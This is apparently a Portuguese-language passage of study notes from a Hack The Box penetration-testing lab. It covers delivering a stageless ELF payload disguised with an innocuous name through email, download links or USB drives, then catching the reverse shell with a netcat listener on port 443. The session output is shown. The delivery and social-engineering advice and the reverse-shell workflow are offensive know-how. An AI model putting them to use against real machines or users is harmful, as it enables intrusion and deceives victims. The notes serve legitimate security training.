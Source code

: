 Cria o binário .elf e nomeia o arquivo createbackup. Podemos nomear esse arquivo como quisermos. Idealmente, chamaríamos de algo discreto e / ou algo que alguém seria tentado a baixar e executar.

## Executando uma carga útil stageless

Neste ponto, temos a carga útil criada em nossa caixa de ataque. Agora precisaríamos desenvolver uma maneira de colocar essa carga útil no sistema de destino. Existem inúmeras maneiras de fazer isso. Aqui estão apenas algumas das maneiras comuns:

- Mensagem de email com o arquivo anexado.
- Faça o download do link em um site.
- Combinado com um módulo de exploração Metasploit (, isso provavelmente exigiria que já estivéssemos na rede interna ).
- Via pen drive como parte de um teste de penetração no local.

Quando o arquivo estiver nesse sistema, ele também precisará ser executado.

Imagine por um momento: a máquina de destino é uma caixa Ubuntu que um administrador de TI usa para gerenciar dispositivos de rede ( hospedando scripts de configuração, acessando roteadores e comutadores, etc. ). Poderíamos fazê-los clicar no arquivo em um e-mail que enviamos porque estavam usando esse sistema descuidadamente como se fosse um computador pessoal ou uma estação de trabalho.

#### Carga útil do Ubuntu

![[Pasted image 20230704204810.png]]

Teríamos um ouvinte pronto para pegar a conexão no lado da caixa de ataque após uma execução bem-sucedida.

#### Conexão NC

```shell-session
casluxd@htb[/htb]$ sudo nc -lvnp 443
```

Quando o arquivo é executado, vemos que capturamos um shell.

#### Conexão estabelecida

```shell-session
casluxd@htb[/htb]$ sudo nc -lvnp 443

Listening on 0.0.0.0 443
Connection received on 10.129.138.85 60892
env
PWD=/home/htb-student/Downloads
cd ..
ls
Desktop
Documents
Downloads
Music
Pictures
Public
Templates
Videos
```
